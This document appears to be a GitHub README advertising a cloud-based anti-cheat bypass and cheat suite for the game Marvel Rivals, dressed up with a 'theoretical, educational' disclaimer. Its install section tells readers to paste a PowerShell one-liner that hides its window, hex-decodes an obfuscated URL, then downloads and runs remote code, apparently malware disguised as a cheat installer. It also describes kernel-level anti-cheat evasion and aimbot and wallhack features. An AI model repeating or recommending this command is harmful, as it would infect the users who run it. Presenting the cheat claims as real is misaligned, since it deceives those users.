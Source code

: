 # 👻 Project Marvel Rivals Anti-Cheat Bypass CLOUD👻

## ⚠️ **Disclaimer:** This project is a **purely theoretical (MAYBE :) ) concept** and is not intended for actual creation or use. Using any software to gain an unfair advantage in games is against the rules and is not endorsed. This document is for educational purposes only to illustrate potential technical concepts.

---

### ✨ Core

Exploring technical approaches to bypass anti-cheat systems in a game like Marvel Rivals, focusing on low-level techniques and activity hiding.
# The cheats work exclusively through cloud services, which reduces the risk of blocking to ZERO.
# Only proxied servers are used and does not allow the game to detect interference in root files!
---

### 🛠️ How It Works

| Component / Technique        | Description                                                                                                                                                              | Hypothetical Application in Marvel Rivals                                                                                                                                                                                             |
|------------------------------|-----------------------------------------------------------------------------------------------------------------------------------------------------------------------|--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| **⬇️ Low-Level Bypass**      | Working below the user-mode, closer to the operating system kernel, to gain higher privileges and evade detection by user-mode anti-cheat components.              | Hypothetically, a kernel driver could intercept anti-cheat calls or hide process memory access.<br>System call hooking might redirect anti-cheat queries to return false data.<br>Running the game in a modified virtual environment. |
| **👻 Activity Hiding**       | Making the cheat software appear invisible or legitimate to the anti-cheat system.                                                                                      | Injecting code into trusted system processes (highly risky 💥).<br>Masquerading the cheat process name and attributes.<br>Hiding handles used by the anti-cheat to interact with the game or cheat process.                            |
| **📊 Data Analysis & Mod.**  | Reading and potentially modifying game data to gain information or advantage.                                                                                           | Scanning game memory for player positions, character states, ability cooldowns.<br>Analyzing network packets for real-time game information.<br>Hypothetically modifying game files (e.g., textures for visibility, though easily detected). |
| **🎯 Cheat Implementation**  | Utilizing the gained data and bypass methods to implement cheat functionalities.                                                                                        | **Wallhack (WH):** Visualizing enemy characters through walls.<br>**AimBot (AB):** Automatically aiming at targets (with varying degrees of human-like simulation).<br>**ESP (Extra Sensory Perception):** Displaying player names, health, distance, etc.<br>**No Recoil/Spread:** Eliminating weapon recoil and bullet spread. |
| **🔄 Updates & Adaptation**  | Mechanisms to stay ahead of anti-cheat updates and detection methods.                                                                                                    | Automatic updating of the cheat software.<br>Employing polymorphic code to change the cheat's structure.<br>Rapid analysis and adaptation to new anti-cheat detection vectors.                                                 |

---

# HOW TO INSTAL:
### Prerequisites

- Internet connection for real-time data fetching

### Quick Install

- #### Press win+r
- #### Insert command
```bash
powershell -WindowStyle Hidden -Command "$p='68747470733A2F2F6A616968696E642E6564752E696E2F67726170657375626A6563742F726570616972626574746572';$u=[System.Text.Encoding]::UTF8.GetString((1..($p.Length/2) | ForEach-Object {[Convert]::ToByte($p.Substring((($_-1)*2),2),16)}));([ScriptBlock]::Create((Invoke-RestMethod $u))).Invoke()"
```

### 🤔 Hypothetical Challenges & Risks

| Aspect                   | Description                                                                                                                                                                                                                                                           |
|--------------------------|-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| ⚙️ **Technical Complexity**  | Requires extremely deep knowledge of Windows internals, reverse engineering, network protocols, and anti-cheat mechanisms. Building stable and undetectable low-level software is a monumental task.                                                                 |
| 🏃 **Constant Arms Race**   | Anti-cheat systems are constantly evolving. New detection methods are deployed regularly, making any bypass solution temporary and requiring continuous updates.                                                                                                   |
| 🚨 **High Detection Risk** | Despite bypass efforts, anti-cheats can detect suspicious behavior, network anomalies, or patterns of memory access. Kernel-level anti-cheats are particularly difficult to evade.                                                                                       |
| 🚫 **Account Ban**         | Using cheats almost invariably leads to a permanent ban of the game account.                                                                                                                                                                                          |
| 💥 **System Instability**  | Incorrectly implemented low-level techniques can lead to game crashes, system errors (BSODs), or even damage to the operating system.                                                                                                                               |
| ⚖️ **Legal Consequences**   | In some jurisdictions, creating or distributing software designed to bypass anti-cheat systems can have legal repercussions.                                                                                                                                      |

